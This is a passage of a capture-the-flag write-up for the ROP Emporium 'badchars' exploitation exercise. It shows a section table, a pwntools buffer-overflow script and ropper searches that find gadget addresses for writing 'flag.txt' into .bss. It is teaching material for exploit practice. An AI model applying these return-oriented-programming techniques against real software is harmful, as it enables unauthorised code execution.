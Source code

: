 ```bash
7   0x0000043e   0x14 0x0040043e   0x14 -r-- GNU_VERSYM  .gnu.version
8   0x00000458   0x20 0x00400458   0x20 -r-- GNU_VERNEED .gnu.version_r
9   0x00000478   0x30 0x00400478   0x30 -r-- RELA        .rela.dyn
10  0x000004a8   0x30 0x004004a8   0x30 -r-- RELA        .rela.plt
11  0x000004d8   0x17 0x004004d8   0x17 -r-x PROGBITS    .init
12  0x000004f0   0x30 0x004004f0   0x30 -r-x PROGBITS    .plt
13  0x00000520  0x192 0x00400520  0x192 -r-x PROGBITS    .text
14  0x000006b4    0x9 0x004006b4    0x9 -r-x PROGBITS    .fini
15  0x000006c0   0x10 0x004006c0   0x10 -r-- PROGBITS    .rodata
16  0x000006d0   0x44 0x004006d0   0x44 -r-- PROGBITS    .eh_frame_hdr
17  0x00000718  0x120 0x00400718  0x120 -r-- PROGBITS    .eh_frame
18  0x00000df0    0x8 0x00600df0    0x8 -rw- INIT_ARRAY  .init_array
19  0x00000df8    0x8 0x00600df8    0x8 -rw- FINI_ARRAY  .fini_array
20  0x00000e00  0x1f0 0x00600e00  0x1f0 -rw- DYNAMIC     .dynamic
21  0x00000ff0   0x10 0x00600ff0   0x10 -rw- PROGBITS    .got
22  0x00001000   0x28 0x00601000   0x28 -rw- PROGBITS    .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- PROGBITS    .data
24  0x00001038    0x0 0x00601038    0x8 -rw- NOBITS      .bss
25  0x00001038   0x29 0x00000000   0x29 ---- PROGBITS    .comment
26  0x00001068  0x618 0x00000000  0x618 ---- SYMTAB      .symtab
27  0x00001680  0x1f8 0x00000000  0x1f8 ---- STRTAB      .strtab
28  0x00001878  0x103 0x00000000  0x103 ---- STRTAB      .shstrtab
```

We will use `.bss` this time and its size is `0x8` bytes, exactly size of `flag.txt` string. 

```python
from pwn import *

elf = context.binary = ELF("badchars")
rop = ROP(elf)

p = process(elf.path)

offset = 40
payload = b'A' * offset
p.recvuntil(b'> ')
p.sendline(payload)
p.interactive()
```

We can use `ropper` to find  `mov [r13], r12; ret;`, `pop r12; pop r13; pop r14; pop r15; ret;`, `xor byte ptr [r15], r14b` addresses.

```bash
┌──(venv)─(at0m㉿DESKTOP-HSPMATJ)-[/mnt/…/Temp/rop/rop_emporium_all_challenges/barchar]
└─$ ropper -f badchars --search "mov [r13], r12"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov [r13], r12

[INFO] File: badchars
0x0000000000400634: mov qword ptr [r13], r12; ret;


┌──(venv)─(at0m㉿DESKTOP-HSPMATJ)-[/mnt/…/Temp/rop/rop_emporium_all_challenges/barchar]
└─$ ropper -f badchars --search "pop r12; pop r13; pop r14; pop r15; ret"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop r12; pop r13; pop r14; pop r15; ret

[INFO] File: badchars
0x000000000040069c: pop r12; pop r13; pop r14; pop r15; ret;
```